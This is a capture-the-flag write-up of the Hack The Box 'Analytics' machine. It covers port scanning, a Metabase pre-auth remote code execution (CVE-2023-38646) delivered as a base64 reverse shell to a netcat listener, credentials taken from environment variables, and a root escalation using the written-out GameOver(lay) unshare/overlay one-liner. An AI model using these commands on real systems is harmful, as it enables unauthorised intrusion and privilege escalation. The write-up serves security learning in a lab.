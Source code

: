 ![Analytics](https://github.com/amalcew/htb-writeups/assets/73908014/1abe9705-be90-416b-9277-2177f11bc99b)

## Reconnaissance & port scanning

Initial scan revealed two open ports:

```bash
# Nmap 7.94SVN scan initiated Sat Feb 24 02:38:33 2024 as: nmap -v -sV -sC --open -vvv -oA logs/initial_recon/initial 10.10.11.233
Nmap scan report for analytical.htb (10.10.11.233)
Host is up, received syn-ack (0.065s latency).
Scanned at 2024-02-24 02:38:33 CET for 10s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 24 02:38:43 2024 -- 1 IP address (1 host up) scanned in 9.52 seconds

```

Host was added to `/etc/hosts`

```bash
echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

Navigating through the page:

![01-initial_page](https://github.com/amalcew/htb-writeups/assets/73908014/9711e2c6-79c3-4b29-b8cc-0369ffd91b8d)

Website contains a login page hosted on subdomain `data.analytical.htb`. Host was added to `/etc/hosts`.

![02-metabase_login](https://github.com/amalcew/htb-writeups/assets/73908014/8a1cf6dd-ebca-4d15-9c68-280001a4900b)

Login page presents a service called "Metabase". Searching for this name on Google we can find, that this is a business intelligence tool. 

## Initial foothold & user privileges escalation

At the moment, specific version of the service is unknown, but searching the internet for potential exploits we can find a writeup about [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396?gi=daef5538392e).
This vulnerability allows to obtain RCE without any authentication, having only `setup-token`. The writeup suggests checking for exposed `/api/session/properties`:

![03-exposed_properties](https://github.com/amalcew/htb-writeups/assets/73908014/3548d214-f6f2-4010-8177-f0b3199a2bdc)

Having the token, we need to use it to gain RCE. Searching the web for this CVE, I've find the [proof of concept](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646) from original analysts, who discovered the vulnerability.

Let's try to execute this exploit on this Metabase instance using Burp:

![image](https://github.com/amalcew/htb-writeups/assets/73908014/42dcf703-2da3-4e43-9aa0-48b239d2b418)

The payload consist of POST request containing reverse shell encoded using base64. Before exploit was executed, `netcat` instance was started to listen for incoming connections.

```bash
> nc -lnvp 1234
listening on [any] 1234 ...
Connection received on xx.xx.xx.xx 42042
bash: no job control in this shell
a6ee5f61d27e:/$
```

It took me a while to escalate privileges to standard user account, as I focused on attempts to read contents of found H2 database. Searching for potential credentials to the database, I've encountered a creds stored as env variales:

```bash
a6ee5f61d27e:/plugins$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=a6ee5f61d27e
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/plugins
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=A*****************
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
OLDPWD=/
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```

Trying those credentials with `ssh` we can easily access the standard user account:

```bash
> ssh metalytics@10.10.11.233
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Feb 24 09:57:58 PM UTC 2024

  System load:  0.27587890625     Processes:                321
  Usage of /:   94.0% of 7.78GB   Users logged in:          1
  Memory usage: 29%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for eth0:    10.10.11.233

  => / is using 94.0% of 7.78GB
  => There are 147 zombie processes.

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Feb 24 21:50:22 2024 from xx.xx.xx.xx
metalytics@analytics:~$ 
```

and read the user flag:

```bash
metalytics@analytics:~$ cat user.txt 
0cae************************7cf5
```
## Root privileges escalation and final flag

Escalation to root was pretty straightforward, but required some enumeration of the machine. As `sudo -l` and `linpeas.sh` enumeration tool did not return any significant information, I've started searching for something related to distro version:

```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Apperantly, Ubuntu 6.2.0-25 is vulnerable to [CVE-2023-2640]([https://nvd.nist.gov/vuln/detail/CVE-2023-2640](https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a)https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a)

Trying the example payload, root is easily achievable:

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

and root flag can be read:

```bash
root@analytics:~# cat /root/root.txt 
a17d************************46d2
```

